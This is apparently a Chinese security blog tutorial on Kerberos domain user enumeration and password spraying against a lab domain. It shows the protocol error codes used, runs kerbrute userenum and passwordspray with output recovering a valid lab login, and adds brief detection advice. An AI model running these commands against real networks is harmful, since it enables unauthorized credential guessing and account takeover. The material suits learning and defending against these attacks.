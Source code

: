 ```yaml
---
title: 域类用户枚举和密码喷洒
published: 2025-03-09 16:46:27
tags: [内网安全,域渗透]
category: 安全
draft: false
---
```


# 域类用户枚举和密码喷洒

## 域内用户枚举

### 原理

域内用户枚举可以在无域内有效凭据的情况下，枚举出域内存在的用户名，并对其进行密码喷洒攻击，以此获得域内的有效凭据

Kerberos协议认证的AS-REQ阶段，客户端向AS发送请求包总统，cname字段对应的值是用户名，AS对用户名验证，用户状态分别为用户存在并启动（需要密码认证），用户存在但禁用，用户不存在时，AS-REP返回的数据包的内容各不相同

| **用户状态** | **AS-REP返回包信息** |
| --- | --- |
| 用户存在且启用，但是没有提供密码 | `KRB5DC_ERR_PREAUTH_REQUIRED`（需要额外的预认证） |
| 用户存在但禁用 | `KRB5DC_ERR_CLIENT_REVOKED NT Status: STATUS_ACCOUNTDISADLED`（用户状态不可用） |
| 用户不存在 | `KRB5DC_ERR_C_PRINCIPAL_UNKNOWN`（在Kerberos数据库中找不到此用户） |

### 域内枚举用户抓包分析

| **用户** | **用户状态** |
| --- | --- |
| a | 用户存在且启用，但是没有提供密码 |
| Guest | 用户存在但禁用 |
| Unknow | 用户不存在 |

通过kerbrute来枚举域内用户，并且使用`wireshark`抓包查看返回包

> https://github.com/ropnop/kerbrute
> 
1. 我们将三个用户名写进`username.txt` 作字典
2. 通过`kerbrute`来枚举域内用户
    
    ```python
    C:\>kerbrute_windows_amd64.exe userenum -d god.org username.txt
    
        __             __               __
       / /_____  _____/ /_  _______  __/ /____
      / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
     / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
    /_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/
    
    Version: dev (9cfb81e) - 11/23/24 - Ronnie Flathers @ropnop
    
    2024/11/23 14:44:44 >  Using KDC(s):
    2024/11/23 14:44:44 >   owa.god.org:88
    2024/11/23 14:44:44 >  [+] VALID USERNAME:       a@god.org
    2024/11/23 14:44:44 >  Done! Tested 3 usernames (1 valid) in 0.034 seconds
    ```
    
3. 抓包
    
    ![image.png](image%2014.png)
    
    可以看到三种类型的数据包，从上到下分别是`a`，`guest`，`unknow` 
    
    展开枚举a用户的请求包，回复包是`KRB5DC_ERR_PREAUTH_REQUIRED` 也就是额外认证，也就是缺少密码
    
    ![image.png](image%2015.png)
    
    剩下两个不展开
    

### 如何防御

枚举用户是通过发送大量的AS-REQ包，如果同一IP短时间请求大量AS-REQ，即可判断为异常

默认情况下域内用户名枚举并不会对不存在的用户名发起的AS-REQ包产生任何事件日志，因此日志层面不太好检测

## 域内密码喷洒

也是在kerberos的AS-REQ阶段，请求包用户名是正确的，当用户名存在时，在密码正确和错误的情况下，返回包会不同，所以可进行对域内的用户进行喷洒

这种针对所有账户的密码猜测时为了避免账户被锁定，因为如果目标域设置了用户锁定策略，针对同一个用户的连续密码猜测会导致账户被锁定，所以只有对所有用户同时执行特定的密码登录尝试，才能增加破解的概率，消除账户被锁定的概率。

普通的爆破就是用户名固定来爆破密码，但是密码喷酒是用固定的密码去爆破用户名。

| **用户状态** | **AS-REP返回包信息** |
| --- | --- |
| 用户存在密码错误 | `KRB5KDC_ERR_PREAUTH_FAILED`（用户存在密码错误） |

### 分析数据包

通过`kekeo`向`KDC`分别请求密码正确和密码错误的数据包，然后抓取数据包

![image.png](image%2016.png)

`5`是使用错误的密码去请求的KDC，可以看到返回包是`KRB5KDC_ERR_PREAUTH_FAILED`

`15`是使用正确的密码去请求的KDC，可以看到正常返回了TGT

### 使用工具进行密码喷洒

如果通过`net accounts /domain`可以查询得知目标域不存在密码锁定策略，则可以针对单个用户进行密码字典爆破

```python
C:\Users\administrator>net accounts /domain
强制用户在时间到期之后多久必须注销?:     从不
密码最短使用期限(天):                    1
密码最长使用期限(天):                    42
密码长度最小值:                          7
保持的密码历史记录长度:                  24
锁定阈值:                                从不 # 这个就是锁定策略，现在是没有策略
锁定持续时间(分):                        30
锁定观测窗口(分):                        30
计算机角色:                              PRIMARY
命令成功完成。
```

还是使用`kerbrute` 

```python
kerbrute_windows_amd64.exe passwordspray --dc <域控IP> -d <域名> <用户名字典> <单个密码>    # 适用于有锁定策略的情况
kerbrute_windows_amd64.exe bruteuser --dc <域控IP> -d <域名> <密码字典> <单个用户名>        # 适用于没有锁定策略的情况，严格来说这种是爆破
# 参数
passwordspray			# 密码喷酒模式
--dc					# 指定域控 IP
-d						# 指定域名
```

```python
C:\>kerbrute_windows_amd64.exe passwordspray --dc 192.168.52.138 -d god.org username.txt Aa20040422

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (9cfb81e) - 11/23/24 - Ronnie Flathers @ropnop

2024/11/23 15:15:44 >  Using KDC(s):
2024/11/23 15:15:44 >   192.168.52.138:88
2024/11/23 15:15:44 >  [+] VALID LOGIN:  a@god.org:Aa20040422
2024/11/23 15:15:44 >  Done! Tested 3 logins (1 successes) in 0.016 seconds
```

喷洒结束，`a`的账户可以使用该密码登录

### 如何防御

和上边一样